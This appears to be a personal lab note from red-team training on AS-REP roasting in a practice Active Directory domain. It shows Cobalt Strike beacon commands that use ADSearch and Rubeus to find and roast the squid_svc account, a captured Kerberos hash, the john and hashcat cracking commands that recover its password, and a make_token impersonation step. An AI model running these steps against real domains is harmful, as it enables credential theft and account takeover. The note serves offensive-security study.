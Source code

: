*If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password.  This configuration is enabled on the User Object and is often seen on accounts that are associated with Linux systems.*

![[Pasted image 20231205162616.png]]
As with kerberoasting, we don't want to asreproast every account in the domain.


on `WKSTN-2` as `DEV\bfarmer` run `ADSearch.exe` command below to identify users that are `susceptible` to `ASREP Roasting`
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname`
```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
	[+] cn                : Squid Proxy
	[+] distinguishedname : CN=Squid Proxy,CN=Users,DC=dev,DC=cyberbotic,DC=io
	[+] samaccountname    : squid_svc
```
`ASREP Roasting` credentials of user `squid_svc` with `Rubeus.exe`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap`
```powershell
[12/05 21:29:12] beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
[12/05 21:29:16] [*] Tasked beacon to run .NET program: Rubeus.exe asreproast /user:squid_svc /nowrap
[12/05 21:29:17] [+] host called home, sent: 550780 bytes
[12/05 21:29:17] [+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2 


[*] Action: AS-REP roasting

[*] Target User            : squid_svc
[*] Target Domain          : dev.cyberbotic.io

[*] Searching path 'LDAP://dc-2.dev.cyberbotic.io/DC=dev,DC=cyberbotic,DC=io' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=squid_svc))'
[*] SamAccountName         : squid_svc
[*] DistinguishedName      : CN=Squid Proxy,CN=Users,DC=dev,DC=cyberbotic,DC=io

[12/05 21:29:17] [+] received output:
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\squid_svc'

[12/05 21:29:18] [+] received output:
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$squid_svc@dev.cyberbotic.io:BA98FACAB1CA017AEC99D6A9CA28DEEB$3D29893B4A2F82419A508ACB81D778854C004A1161767C6D9BFB3CC7E84AADB7D4A01A6B0618B2F5DE359D038E12473DF5E59B4AA132B684AB00567C3EDC27A91E4B0DA2EC4EB822E5FF1D62E8B9A6EE202BD97552A625633C63A47555508DE951F79585BB7CF2CB1812519A84BC9FD82D342431731CC8520819D2BCF9C361A5866EBA153993E56AB5DA9789B1D117EC2B4801B842D02F252101ED24B4DAC6115A49A4A176E9BE48A28B0D1BD430BC06E93FCDE88341A89D38EE5F60580EEB4BB51B55949405674C4F8D2FB4452230DBAE6B6E4C9FC53AD99DCD936EE41EC5D8DCE6072003BAD829ED969FD790F9A02CD9B5B3B2FF89
```
in order to break the hashes Use `--format=krb5asrep --wordlist=wordlist squid_svc` for john or `-a 0 -m 18200 squid_svc wordlist` for hashcat.
```powershell
$ john --format=krb5asrep --wordlist=wordlist squid_svc
Passw0rd!        ($krb5asrep$squid_svc@dev.cyberbotic.io)
```

# Impersonating `squid_svc` user

can [[Penetration Testing v2/crto_Defender/2. WKSTN2 - 1/4. user_Impersonation/7. Make Token|7. Make Token]] with the cracked credentials on `WKSTN-2` as `DEV\bfarmer`

```powershell
[12/05 21:34:15] beacon> make_token DEV\squid_svc Passw0rd!
[12/05 21:34:15] [*] Tasked beacon to create a token for DEV\squid_svc
[12/05 21:34:15] [+] host called home, sent: 101 bytes
[12/05 21:34:15] [+] Impersonated DEV\squid_svc (netonly)
```
![[Pasted image 20231205163525.png]]